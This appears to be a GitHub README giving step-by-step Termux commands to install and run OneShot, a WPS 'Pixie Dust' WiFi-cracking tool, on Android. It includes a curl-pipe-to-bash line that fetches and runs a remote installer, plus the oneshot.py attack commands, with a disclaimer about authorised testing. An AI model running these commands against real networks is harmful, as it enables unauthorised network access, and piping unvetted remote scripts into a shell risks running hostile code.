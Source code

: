 # Crack WiFi Using Termux

This document provides a straightforward guide on using a WiFi Cracker tool with the Termux. It's intended for educational purposes only. Ensure you have permission to test on the network you're targeting.

## Getting Started

### Prerequisite
- [Termux](https://github.com/termux/termux-app) installed on your device. ([Termux Monet](https://github.com/KitsunedFox/termux-monet) is recommended)
  
***Note:*** Don't use the Play Store version of termux as it is no longer maintained.
  
### Installation and Usage

1. **Upgrade Packages**
   Open Termux and upgrade the packages to ensure you're working with the latest versions.
   ```bash
   pkg upgrade
   ```

2. **Update Packages**
   Next, update the package lists to fetch the latest available versions of the packages.
   ```bash
   pkg update
   ```

3. **Install WiFi Cracker**
   Download and execute the installer script for the WiFi Cracker tool using curl.
   ```bash
   curl -sSf https://raw.githubusercontent.com/Burhanverse/OneShot_Termux_installer/master/installer.sh | bash
   ```
   If the installation process halts or fails, simply rerun the command to attempt the installation again.

4. **Disable WiFi/Data Connection**
   Ensure your device's WiFi or data connection is turned off to prevent interference during the cracking process.

5. ***Execute the CMD***
   Run the appropriate command based on your device's chipset.

   - ***For Qualcomm (qcom) chipsets:***
     ```bash
     sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
     ```

   - ***For MediaTek (mtk) chipsets:***
     ```bash
     sudo python OneShot/oneshot.py -i wlan0 --mtk-wifi --iface-down -K
     ```

## Disclaimer
This guide is for educational purposes only. Always have explicit permission before attempting to test any network. Unauthorized access to networks is illegal and unethical.


